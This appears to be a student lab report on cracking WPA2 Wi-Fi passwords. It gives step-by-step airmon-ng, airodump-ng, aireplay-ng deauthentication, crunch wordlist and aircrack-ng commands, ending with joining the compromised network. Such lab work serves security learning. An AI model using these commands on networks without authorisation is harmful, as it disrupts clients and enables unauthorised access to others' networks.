


# Wireless Network Compromise Lab

## Introduction

This project report focuses on understanding tools used for compromising wireless networks, specifically airmon-ng, aircrack-ng, and crunch. The objective is to analyze and practice capturing WPA2 handshakes, generating password lists, and performing brute-force attacks to crack Wi-Fi passwords.

## Objectives

Learn about airmon-ng, aircrack-ng, and crunch.

Install these tools on a physical or virtual machine.

Capture a WPA2 handshake from a target wireless network.

Generate a password list using crunch.

Crack the Wi-Fi password using aircrack-ng.

Successfully connect to the compromised network.

## Task Description
### 1. Capturing WPA2 Handshake

* Enable monitor mode using: sudo airmon-ng start <interface>. 
  
* Kill interfering processes using: sudo airmon-ng check kill. 
  
* Scan for available Wi-Fi networks: sudo airodump-ng <monitor_interface>. 
  
* Filter to a specific network: sudo airodump-ng -d <BSSID> <monitor_interface>. 
  
* Capture handshake by forcing client deauthentication: sudo aireplay-ng --deauth 0 -a <BSSID> <monitor_interface>. 
  

### 2. Creating a Custom Password List

Generate a list of 4-digit PINs: crunch 4 4 0123456789 -o crunch-list.txt. 
  
Define patterns using placeholders (@, %, ^): crunch 8 8 -t 'test%%%^' -o crunch-list-2.txt. 
  
### 3. Cracking the WPA2 Password

Use aircrack-ng with the captured handshake and password list: 
aircrack-ng <capture_file> -w <wordlist_file> 
  
Identify the correct password and connect to the Wi-Fi network. 
  
## Key Observations

Monitor Mode is essential for packet capturing. 

Deauthentication Attacks force clients to reconnect, capturing the handshake. 

Password Strength significantly impacts cracking success; strong passwords resist brute-force attempts. 

Predefined Wordlists (like rockyou.txt) improve attack efficiency. 

## Conclusion

This project demonstrated techniques for capturing and cracking WPA2 Wi-Fi passwords using airmon-ng, aircrack-ng, and crunch. The experiment provided insight into wireless network security vulnerabilities and the importance of strong password policies.
